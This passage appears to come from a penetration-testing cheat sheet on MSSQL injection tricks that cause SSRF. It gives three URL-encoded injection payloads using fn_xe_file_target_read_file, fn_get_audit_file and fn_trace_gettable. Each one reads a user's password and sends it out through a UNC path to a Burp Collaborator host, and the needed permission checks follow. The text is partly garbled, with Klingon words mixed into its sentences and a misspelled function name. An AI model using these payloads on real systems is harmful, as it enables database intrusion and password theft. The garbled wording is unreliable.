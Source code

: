 ## SSRF

**SSRF** **tricks** **[were taken from here](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)**

### `fn_xe_file_target_read_file`

**'ej** **`VIEW SERVER STATE`** **permission** **on** **the** **server** **tlhIngan** **vItlhutlh**.
```
https://vuln.app/getItem?id= 1+and+exists(select+*+from+fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select+pass+from+users+where+id=1)%2b'.064edw6l0h153w39ricodvyzuq0ood.burpcollaborator.net\1.xem',null,null))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
# Or doing
Use master;
EXEC sp_helprotect 'fn_xe_file_target_read_file';
```
### `fn_get_audit_file`

**`CONTROL SERVER`** permission is required.
```
https://vuln.app/getItem?id= 1%2b(select+1+where+exists(select+*+from+fn_get_audit_file('\\'%2b(select+pass+from+users+where+id=1)%2b'.x53bct5ize022t26qfblcsxwtnzhn6.burpcollaborator.net\',default,default)))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_get_audit_file';
```
### `fn_trace_gettabe`

**`CONTROL SERVER`** permission vItlhutlh.
```
https://vuln.app/ getItem?id=1+and+exists(select+*+from+fn_trace_gettable('\\'%2b(select+pass+from+users+where+id=1)%2b'.ng71njg8a4bsdjdw15mbni8m4da6yv.burpcollaborator.net\1.trc',default))
```

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='CONTROL SERVER';
# Or doing
Use master;
EXEC sp_helprotect 'fn_trace_gettabe';
```
### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` <a href="#limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures" id="limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures"></a>
